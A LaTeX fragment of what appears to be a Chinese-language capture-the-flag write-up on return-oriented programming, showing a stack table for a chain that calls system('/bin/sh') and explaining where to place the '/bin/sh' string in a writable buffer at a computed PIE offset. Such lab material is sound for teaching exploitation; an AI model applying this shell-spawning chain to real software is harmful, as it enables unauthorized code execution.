 \documentclass[10pt,a4paper]{article}
\providecommand{\tightlist}{%
  \setlength{\itemsep}{0pt}\setlength{\parskip}{0pt}}
\renewenvironment{quote}{%
  \begin{mdframed}[linewidth=0pt,innerleftmargin=0pt,innerrightmargin=0pt,
    innerbottommargin=0pt,innertopmargin=0pt,skipabove=0.55em,skipbelow=0.55em,
    leftmargin=0.9em,rightmargin=0.4em,startcode={\color{quotebar}\vrule width 2.6pt},%
    endcode={}]%
  \itshape\color{black}%
}{%
  \end{mdframed}%
}
\begin{document}
\begin{Verbatim}[breaklines=true,breakanywhere=true,breakautoindent=false,fontsize=\fontsize{7.0}{9.5}\selectfont]
堆疊（rbp = 0x7fffffffddd0）：
  rbp+0x00  0x7fffffffde60        saved rbp（保留原值）
  rbp+0x08  0x000055555555501a    ← 回傳位址 = chain[0] = ret        （第 1 步吃掉）
  rbp+0x10  0x00005555555552aa    ← chain[1] = pop rdi; ret          （第 2 步吃掉）
  rbp+0x18  0x0000555555558a54    ← chain[2] = "/bin/sh"             （第 3 步 pop 進 rdi）
  rbp+0x20  0x00005555555550c0    ← chain[3] = system@plt            （第 4 步吃掉）
  rbp+0x28  0x0000000000000000    ← chain[4] = system 的回傳位址     （第 5 步 system 看到）
\end{Verbatim}

\begin{quote}
※提示 看懂這張表就懂了 ROP：\textbf{「堆疊 = 一張指令清單；每個
\texttt{ret} 讀一格、跳到那格寫的位址」}。 所以排 payload
時只要問自己兩件事： 1. 這個 gadget 會從 \texttt{rsp}
讀幾格？（\texttt{pop\ \allowbreak{}rdi;\ \allowbreak{}ret} 讀 1 格參數 + 1 格下一步 = 2 格） 2.
我現在這一格在記憶體裡的\textbf{位址}對不對？（要用
\texttt{state{[}i{]}\ \allowbreak{}=\ \allowbreak{}payload{[}i+1{]}} 換算，見 §7.3）
\end{quote}

\paragraph{\texorpdfstring{6.4 \texttt{/\allowbreak{}bin/\allowbreak{}sh}
字串要放哪？}{6.4 /bin/sh 字串要放哪？}}\label{binsh-ux5b57ux4e32ux8981ux653eux54ea}

\begin{itemize}
\tightlist
\item
  \textbf{libc 裡本來就有} \texttt{"/\allowbreak{}bin/\allowbreak{}sh"} 字串 → 但需要知道遠端 libc
  版本對應的位移（本機 2.44、遠端 2.35 不同）→ 我們\textbf{刻意不用}。
\item
  \textbf{\texttt{.\allowbreak{}bss}（可寫、位址固定相對 PIE）}：本題的
  \textbf{接收緩衝區 \texttt{0x4860}} 內容完全由我們控制！ 我們把
  \texttt{"/\allowbreak{}bin/\allowbreak{}sh\textbackslash{}\allowbreak{}0"} 放在 payload 的 \texttt{0x1f0} 處
  → 它的位址就是
  \textbf{\texttt{PIE\_\allowbreak{}base\ \allowbreak{}+\ \allowbreak{}0x4864\ \allowbreak{}+\ \allowbreak{}0x1f0\ \allowbreak{}=\ \allowbreak{}PIE\_\allowbreak{}base\ \allowbreak{}+\ \allowbreak{}0x4a54}}。
  最後送出的 \texttt{EJECT} 訊框只有 7 bytes，只會覆寫
  \texttt{0x4860..\allowbreak{}0x4867}，\textbf{碰不到
  \texttt{+0x1f0}}，所以字串安然無恙。
\end{itemize}
\end{document}
